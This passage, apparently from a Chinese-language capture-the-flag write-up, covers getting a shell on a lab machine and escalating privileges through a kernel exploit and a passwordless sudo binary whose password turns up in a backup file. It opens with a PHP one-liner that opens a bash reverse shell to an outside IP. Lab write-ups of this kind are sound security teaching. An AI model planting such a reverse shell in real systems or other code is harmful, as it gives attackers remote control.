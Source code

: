 ```
<?php exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.55/443 0>&1 '")  ?>
```
![Pasted image 20250123214209.png](/img/user/picture/Pasted%20image%2020250123214209.png)


## 提权——系统内核

![Pasted image 20250123215443.png](/img/user/picture/Pasted%20image%2020250123215443.png)

![Pasted image 20250123215543.png](/img/user/picture/Pasted%20image%2020250123215543.png)

![Pasted image 20250123215701.png](/img/user/picture/Pasted%20image%2020250123215701.png)


漏洞利用很简单，就编译一下执行就可以了
![Pasted image 20250123215816.png](/img/user/picture/Pasted%20image%2020250123215816.png)


在本地的80端口开一个服务
```
sudo php -S 0:80
```

![Pasted image 20250123220111.png](/img/user/picture/Pasted%20image%2020250123220111.png)
![Pasted image 20250123220152.png](/img/user/picture/Pasted%20image%2020250123220152.png)

![Pasted image 20250123220223.png](/img/user/picture/Pasted%20image%2020250123220223.png)

//内核漏洞通常太过于暴力，容易影响运行服务的崩溃，要尽量避免使用内核漏洞进行提权

## 提权 ——openssl
![Pasted image 20250123214644.png](/img/user/picture/Pasted%20image%2020250123214644.png)

发现我们有一个不需要密码就可以高权限执行的文件：`/home/saket/enc`
![Pasted image 20250124111321.png](/img/user/picture/Pasted%20image%2020250124111321.png)
执行这个文件需要密码，猜测这个密码可能会存在在机器上的某一个位置作为备份
所以我们就去用find找找

```
 find / -name '*backup*' 2>/dev/null
```

![Pasted image 20250124112336.png](/img/user/picture/Pasted%20image%2020250124112336.png)
![Pasted image 20250124112554.png](/img/user/picture/Pasted%20image%2020250124112554.png)

这个文件告诉了enc的密码
```enc
backup_password
```
